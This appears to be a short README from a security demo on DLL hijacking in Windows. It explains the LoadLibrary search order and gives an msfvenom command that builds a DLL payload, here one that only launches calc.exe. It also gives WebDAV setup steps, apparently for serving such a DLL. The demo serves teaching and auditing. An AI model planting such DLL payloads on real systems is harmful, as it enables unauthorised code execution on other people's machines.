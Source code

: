 # Unsafe DLL Loading

This is an example of unsafe DLL loading. The EXE attempts to load a non-existent named
HelloWorld.dll, and as you can see, Windows is looking for it in multiple places. This
is because LoadLibrary has this search order:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

If an attacker has control over one of these directories, for example: a directory
traversal that allows the person to write to anywhere on the file system, then he
can generate a DLL payload like this:

```
msfvenom -f dll -p windows/exec CMD="C:\windows\system32\calc.exe" -o runcalc.dll
```

And then hijack the DLL by placing it in a path that the EXE loads.

Also see:

https://github.com/rapid7/DLLHijackAuditKit

## WebDav Setup

You can do:

```
sudo pip install wsgidav cheroot
```

You might need to do:

```
sudo pip install six --upgrade --ignore-installed
```

Create a share folder:

```
/tmp/webdav/share
```

And finally, start wsgidav:

```
./start_wsgidav.sh
```